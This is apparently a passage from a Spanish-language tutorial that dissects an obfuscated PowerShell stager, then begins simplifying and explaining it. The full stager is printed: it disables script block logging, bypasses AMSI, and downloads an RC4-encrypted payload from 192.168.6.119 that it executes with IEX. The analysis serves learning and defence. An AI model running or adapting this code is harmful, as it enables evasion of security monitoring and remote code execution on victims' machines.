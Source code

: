 ```console
If($PSVErSioNTaBLe.PSVErSIoN.MAjor -gE 3)
{
	$GPF=[rEf].AsSeMblY.GetTYpE('System.Management.Automation.Utils')."GeTFieLd"('cachedGroupPolicySettings','NonPublic,Static');
	If($GPF)
	{
		$GPC=$GPF.GeTValUE($NULL);
		IF($GPC['ScriptBlockLogging'])
		{
			$GPC['ScriptBlockLogging']['EnableScriptBlockLogging']=0;
			$GPC['ScriptBlockLogging']['EnableScriptBlockInvocationLogging']=0
		}
		$Val=[ColLECTionS.GENeric.DIcTiOnarY[STriNG,SystEm.Object]]::NEw();
		$vAL.ADD('EnableScriptBlockLogging',0);
		$VAL.AdD('EnableScriptBlockInvocationLogging',0);
		$GPC['HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging']=$vAL
	}
	ElSe
	{
		[ScRIPtBloCk]."GETFIElD"('signatures','NonPublic,Static').SetVALUe($nuLl,(New-OBJect COllEcTIONs.GenErIC.HASHSet[sTRInG]))
	}
	[REF].AsSEMBLY.GEtTypE('System.Management.Automation.AmsiUtils')|?{$_}|%{$_.GeTFIeld('amsiInitFailed','NonPublic,Static').SETVALUe($null,$true)};
};
[SystEM.NeT.SErvicEPOINTManAGeR]::EXPeCt100CoNTinUe=0;
$wC=New-ObJecT SYsTem.NET.WeBCLIENt;
$u='Mozilla/4.0 (compatible; MSIE 6.0;Windows NT 5.1)';
$WC.HEaDERS.ADd('User-Agent',$u);
$wC.PRoxY=[SYsteM.NET.WEbRequest]::DeFAulTWEbPROxY;
$wC.Proxy.CREdentIaLs = [SyStEM.NEt.CReDenTiaLCACHE]::DefAultNEtWorkCReDEntiALs;
$Script:Proxy = $wc.Proxy;
$K=[SYsTEm.TEXT.ENcODinG]::ASCII.GeTBYtEs('fdcece0a22c10f83dccc8f17c95a33d4');
$R={$D,$K=$ARGs;
$S=0..255;
0..255|%{$J=($J+$S[$_]+$K[$_%$K.COuNT])%256;
$S[$_],$S[$J]=$S[$J],$S[$_]};
$D|%{$I=($I+1)%256;
$H=($H+$S[$I])%256;
$S[$I],$S[$H]=$S[$H],$S[$I];
$_-bXOr$S[($S[$I]+$S[$H])%256]}};
$ser='http://192.168.6.119:80';
$t='/CWoNaJLBo/VTNeWw11212/';
$wc.HeADeRs.AdD("Accept","image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, */*");
$Wc.HeaDeRs.Add("Accept-Language","en-en");
$WC.HEADErS.AdD("Cookie","session=pRWdj48/Lf2wTAhO2Y7BXpRHz6o=");
$DAtA=$WC.DOWnlOADDAtA($SEr+$T);
$iv=$datA[0..3];
$Data=$DATa[4..$DATA.LENgTh];
-jOiN[ChaR[]](& $R $Data ($IV+$K))|IEX
```console

A continuación, eliminemos la parte del IF, para simplificar, y enfoquemonos en el resto del código. También organicé un poco el código, para poder agrupar las partes que funcionan juntas y explicar cada una por separado.

```console
[System.Net.ServicePointManager]::Expect100Continue=0;
 
$wc=New-Object System.Net.WebClient;
$u='Mozilla/4.0 (compatible; MSIE 6.0;Windows NT 5.1)';
$wc.Headers.Add('User-Agent',$u);
```